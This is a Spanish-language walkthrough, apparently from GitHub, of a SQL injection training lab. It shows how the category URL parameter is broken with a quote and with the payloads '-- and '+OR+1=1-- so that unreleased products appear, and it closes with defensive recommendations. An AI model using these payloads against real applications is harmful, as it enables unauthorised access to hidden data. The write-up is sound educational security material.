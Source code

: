 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green)

---

Tenemos un sitio web para realizar compras de productos:
![image](https://github.com/user-attachments/assets/e7f1d850-f540-4cfc-9495-0bae72bb061e)

Podemos buscar productos y realizar filtros según su categoría, probamos filtrar por `Gifts`:
![image](https://github.com/user-attachments/assets/a82cdd53-a451-41de-8bbc-b3da6aedd74f)

Nosotros sabemos que la consulta por detrás es la siguiente:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Y sabemos que el valor de `category` lo toma del parámetro de la url `?category=Gifts`.

Procedemos a intentar romper la consulta, añadiendo el caracter `'`, lo cual cerraría la consulta de la siguiente forma:
```sql
SELECT * FROM products WHERE category = 'Gifts'' AND relesead = 1
```
La última parte de la consulta (`' AND relesead = 1`) queda por fuera y podría causar un error de sintaxis:
![image](https://github.com/user-attachments/assets/b8469c86-9f5b-422f-9eda-9ed3f7cc83d5)

Este es el primer indicador de que podría haber inyección SQL.


Lo que hacemos ahora es añadir el siguiente payload: `'--`
Por lo cual la consulta completa sería:
```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND relesead = 1
```
Que es lo mismo que:
```sql
SELECT * FROM products WHERE category = 'Gifts'
```


![image](https://github.com/user-attachments/assets/4540d5d6-30f7-45fe-8550-40f44392e647)

Como vemos se realizó la consulta, lo cual confirmamos que hay inyección SQL.

Procedemos a resolver el lab inyectando el siguiente payload: `'+OR+1=1--`

Por lo que la cadena de consulta quedaría:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND relesead = 1
```
Que sería lo mismo que:
```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1
```

Lo cual se traduce en `mostrame todas las filas de la tabla products donde la categoria es Gifts o donde 1=1`. Por lo que mostrará todos los productos:

![image](https://github.com/user-attachments/assets/acec4257-02e1-4607-a0c5-b9b481997939)

---

## ✅ Conclusión

Se identificó y explotó exitosamente una vulnerabilidad de **SQL Injection** en el parámetro `category`, específicamente en la cláusula `WHERE` de una consulta SQL.

La inyección permitió alterar la lógica original (`AND released = 1`) para revelar productos ocultos que normalmente no deberían mostrarse, cumpliendo el objetivo del laboratorio.

## 🛡️ Recomendaciones

- Utilizar consultas parametrizadas (prepared statements) para evitar la inyección directa de datos del usuario en sentencias SQL.
- Validar y sanear adecuadamente toda entrada controlada por el usuario.
- No confiar en valores provenientes de la URL sin una capa de validación en el servidor.

## 📚 Lecciones aprendidas

- El caracter `'` puede ser una poderosa herramienta para confirmar inyecciones SQL.
- Comentar la parte restante de una consulta (`--`) es una técnica común para forzar condiciones maliciosas.
- Las cláusulas `OR 1=1` permiten forzar evaluaciones verdaderas y acceder a datos no permitidos.






